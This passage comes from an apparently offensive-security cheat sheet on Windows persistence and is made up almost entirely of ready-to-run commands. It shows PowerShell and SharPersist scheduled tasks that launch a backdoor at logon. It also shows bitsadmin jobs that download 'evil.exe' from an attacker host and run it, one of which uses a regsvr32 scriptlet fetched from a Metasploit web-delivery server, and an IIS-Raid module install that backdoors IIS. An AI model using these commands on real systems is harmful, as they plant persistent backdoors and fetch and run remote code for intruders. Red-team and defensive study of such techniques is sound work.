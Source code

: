 ```powershell
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```

Using SharPersist

```powershell
# Add to a current scheduled task
SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add

# Add new task
SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
```

### BITS Jobs

```powershell
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://10.10.10.10/evil.exe"  "C:\tmp\evil.exe"

# v1
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\evil.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor

# v2 - exploit/multi/script/web_delivery
bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/s /n /u /i:http://10.10.10.10:8080/FHXSd9.sct scrobj.dll"
bitsadmin /resume backdoor
```

## Serviceland

### IIS

IIS Raid – Backdooring IIS Using Native Modules

```powershell
$ git clone https://github.com/0x09AL/IIS-Raid
$ python iis_controller.py --url http://192.168.1.11/ --password SIMPLEPASS
C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:Module Name /image:"%windir%\System32\inetsrv\IIS-Backdoor.dll" /add:true
```

### Windows Service
